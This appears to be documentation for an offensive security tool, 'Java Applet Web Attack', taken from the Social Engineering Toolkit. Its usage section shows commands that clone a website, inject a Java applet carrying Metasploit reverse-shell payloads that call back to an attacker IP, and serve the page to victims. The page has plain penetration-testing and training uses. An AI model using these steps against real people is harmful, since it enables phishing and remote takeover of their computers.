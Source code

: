 Java Applet Web Attack
======================

Website
-------

<https://bitbucket.org/ethanr/java-web-attack>

Description
-----------

This project aims to break out the Java Applet Web Attack method from the Social Engineering Toolkit into a standalone tool.

Install Location
----------------

`/opt/java-web-attack/`

Usage
-----

NOTE: You will want to run all of the commands in this tutorial as root.  To become root run the command `sudo su -`.

`~#` **`cd /opt/java-web-attack`**

`/opt/java-web-attack#` **`./clone.sh <url to clone>`**
  
`/opt/java-web-attack#` **`./weaponize.py -h`**

        Usage:
          ./weaponize.py [-w <payload>] [-l <payload>] [-m <payload>] <html_file> <ip>
          ./weaponize.py -h
        
        Options:
          -h            Shows this help message.
          -w            Specifies the Windows payload to use. [default: windows/meterpreter/reverse_tcp]
          -l            Specifies the Linux payload to use. [default: linux/x86/meterpreter/reverse_tcp]
          -m            Specifies the Mac OS X payload to use. [default: osx/x86/shell_reverse_tcp]
          <payload>     The payload string as expected by msfvenom. Run `msfvenom -l payloads` to see all choices.
          <html_file>   The HTML file to insert the Java payload.
          <ip>          The IP address the payload should connect back to.
        
        Note: The default ports used for the Windows, Linux, and Mac listeners are 3000, 3001, and 3002 respectively.

`/opt/java-web-attack#` **`./serve.sh`**

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_Java_App_Evil.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155668&canary=">
 <p>Your browser does not support html5 video.</p>
</video>
